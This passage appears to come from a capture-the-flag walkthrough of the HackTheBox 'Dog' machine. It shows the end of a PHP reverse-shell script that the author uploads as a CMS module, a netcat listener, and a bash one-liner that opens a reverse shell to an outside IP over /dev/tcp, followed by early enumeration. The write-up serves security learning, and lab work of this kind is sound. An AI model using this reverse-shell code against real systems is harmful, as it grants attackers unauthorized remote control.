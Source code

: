 ```php
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}

?>
```

I then archived it again and uploaded it with the listener open and go to the shell address.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593365/image_y5lrca.png)

`nc -lvnp 4444`

Make sure `dog.htb`is in `/etc/hosts`.

http://dog.htb/modules/shell/shell.php

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593368/image_lxuovf.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593370/image_nunkae.png)

`bash -c 'bash -i >& /dev/tcp/10.10.14.65/4444 0>&1'`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593372/image_b4gmjj.png)

And I got a shell. As always, the first step is to snoop around and enumerate whatever you can to see what you have access to.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593375/image_bnxeyu.png)

I tried to login as `tiffany`but she didn't exist as a user.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593377/image_wa3xk1.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593379/image_m9zrqg.png)
